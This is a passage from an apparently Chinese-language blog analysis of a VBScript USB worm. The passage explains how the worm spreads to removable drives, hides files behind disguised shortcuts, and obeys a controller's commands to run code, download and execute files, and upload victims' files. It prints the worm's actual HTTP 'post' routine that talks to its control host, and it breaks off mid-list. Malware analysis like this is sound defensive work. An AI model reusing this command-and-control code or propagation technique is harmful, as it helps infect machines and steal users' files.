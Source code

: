 **后面分析时不再整体列出函数内容。**

`while`循环中，首先执行一个`install`过程。它首先调用`upstart`过程，功能如前所述。接着遍历所有驱动器：如果驱动器准备接受访问且可用空间大于0且是可移动磁盘，则执行下面的操作：

把自己复制到这个磁盘根目录下并设置为隐藏+系统文件属性；

遍历该磁盘下所有文件：  
如果`lnkfile`为假就退出循环（开头定义了它是真，吾爱网友的分析有误）；  
如果文件名中有`.`且后缀不是`lnk`，那么就把它的属性设置为隐藏+系统文件，并在该磁盘根目录下创建这个文件的快捷方式，把快捷方式指向正常文件本身和该病毒脚本；然后读取注册表中`HKEY_LOCAL_MACHINE\software\classes`和`HKEY_LOCAL_MACHINE\software\classes\.`下该文件的图标样式并根据情况设置该快捷方式的图标（防止用户生疑）；

遍历该磁盘下所有子文件夹：  
如果`lnkfolder`为假就退出循环（开头定义了它是真，吾爱网友的分析有误）；  
设置文件夹属性为隐藏+系统文件，也为文件夹创建快捷方式，方法与上面相同。

到此，`install`结束。

接着调用`post`函数向控制端发送消息：准备完毕，并接收控制端的指令（vb中函数的返回值可以通过在函数体内对与函数名相同的变量赋值来传递）。

`post`函数短小精悍，可以看一下：

{% highlight vb %}
function post (cmd ,param)
post = param
httpobj.open "post","http://" & host & ":" & port &"/" & cmd, false
httpobj.setrequestheader "user-agent:",information
httpobj.send param
post = httpobj.responsetext
end function
{% endhighlight %}

接着根据控制端的指令进行操作：

`execute`:

执行控制端发来的指令；

`update`:

根据返回的内容写脚本，对其进行升级，然后运行新的脚本，退出当前脚本；

`uninstall`:

执行`uninstall`过程，主要有四个动作：删除注册表下自己建的项，删除系统启动文件夹下的病毒脚本，删除自身，遍历所有可移动磁盘删除快捷方式及病毒并还原文件；

`send`:

调用`download`过程，下载并运行返回的第二个参数文件和第三个参数文件；

`site-send`:

调用`sitedownloader`过程，下载并运行返回的第二个参数文件和第三个参数文件；

`recv`:

调用`upload`函数，上传第二个参数指定的文件（吾爱网友关于这个指令的功能描述有误）；

`enum-driver`:

调用`enumdriver`函数，获取当前可用驱动器列表并发送给控制端；

`enum-faf`:
